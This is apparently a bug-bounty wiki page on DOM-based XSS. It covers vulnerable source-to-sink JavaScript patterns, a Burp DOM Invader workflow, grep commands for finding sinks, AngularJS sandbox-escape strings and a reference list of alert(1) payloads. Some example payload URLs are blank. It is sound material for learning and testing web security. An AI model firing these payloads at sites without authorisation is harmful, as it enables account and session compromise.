

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/XSS/DOM-XSS

# DOM XSS

DOM XSS never touches the server. The payload lives in the URL fragment, a `postMessage`, or any other client-side source  -  and the JavaScript sinks it into the DOM without sanitization. Traditional scanners miss it constantly because there's nothing in the HTTP response to flag. You need to read the JS.

## Source -> Sink Mental Model



## Common Sources

### `location.hash`

Frameworks that use hash-based routing (`#/path`) often pass the fragment into the page. No encoding means XSS.

```javascript
// Vulnerable pattern
document.getElementById('title').innerHTML = location.hash.slice(1);
 
// Payload in URL
https://target.com/page#
```

### `location.search` / Query Params

```javascript
// Vulnerable pattern  -  URLSearchParams value straight into DOM
let params = new URLSearchParams(location.search);
document.getElementById('msg').innerHTML = params.get('message');
 
// Payload
https://target.com/?message=<svg onload=alert(1)>
```

### `document.referrer`

```javascript
// Vulnerable pattern
document.write('Referred by: ' + document.referrer);
 
// Exploit: host a page that links to target
<a href="https://target.com/vuln-page">click</a>
// Set the referrer to: https://evil.com/<script>alert(1)</script>
```

### `postMessage`

Single-page apps use `postMessage` for cross-frame communication. If the receiver doesn't validate `event.origin`:

```javascript
// Vulnerable receiver
window.addEventListener('message', function(e) {
  document.getElementById('content').innerHTML = e.data;
});
 
// Attacker-controlled iframe or window
target_window.postMessage('', '*');
 
// Or via URL if the app opens windows:
// host a page that does:
let w = window.open('https://target.com');
setTimeout(() => w.postMessage('', '*'), 2000);
```

## Common Sinks

| Sink | Notes |
| --- | --- |
| `innerHTML` | Classic. Executes event handlers, not `<script>` tags directly |
| `outerHTML` | Same as innerHTML |
| `document.write` | Executes `<script>` tags |
| `eval()` | Executes JS strings directly |
| `setTimeout(string)` | String form = eval |
| `setInterval(string)` | Same |
| `location.href = input` | `javascript:` URI works |
| `src` attribute assignment | `javascript:` URI in some cases |
| `insertAdjacentHTML` | Same as innerHTML |

## DOM Invader Workflow (Burp Suite)

1. Open Burp's embedded browser (Proxy -> Open Browser).
2. Enable DOM Invader in the extension panel.
3. Copy the canary string DOM Invader generates.
4. Browse the target  -  manually interact with the app.
5. DOM Invader highlights when the canary reaches a sink.
6. Right-click the finding -> "Exploit"  -  it auto-generates the appropriate payload.

This catches things no automated scanner will  -  especially `postMessage` handlers and hash-based routing.

## Manual JS Hunting

When I don't have Burp Pro or want to go deep:

```bash
# Pull all JS files
katana -u https://target.com -jc -o js_urls.txt
 
# Search for dangerous sinks
grep -E "innerHTML|outerHTML|document\.write|eval\(|setTimeout\(" js_urls.txt
 
# Search for sources being used
grep -E "location\.hash|location\.search|document\.referrer|\.data" js_urls.txt
```

For minified JS: paste into [deobfuscate.io](https://deobfuscate.io) or Chrome DevTools -> Sources -> prettify.

## jQuery DOM XSS

jQuery's `$()` selector is a sink when it receives HTML:

```javascript
// Vulnerable  -  if location.hash starts with < it parses as HTML
$(location.hash)
 
// Payload
https://target.com/#
 
// Also: $.html(), $.append(), $.prepend(), $.after(), $.before(), $.replaceWith()
```

## AngularJS Sandbox Escape (Legacy)

If you see AngularJS 1.x, look for `ng-app` with user-controlled template expressions:

```json
{{constructor.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```

## Payload Reference

```javascript
// Works in innerHTML sink  -  no script tags needed

<svg onload=alert(1)>
<iframe srcdoc="<script>alert(1)</script>">
 
// Works in eval/setTimeout sink
alert(1)
};alert(1);//
 
// Works in href/src sink
javascript:alert(1)
```

## Related

- [XSS Overview](../../../../XSS/)
- [Framework XSS](../../../../Attack-Surface/Web/Injection/XSS/Framework-XSS)
- [Reflected XSS](../../../../Attack-Surface/Web/Injection/XSS/Reflected-XSS)
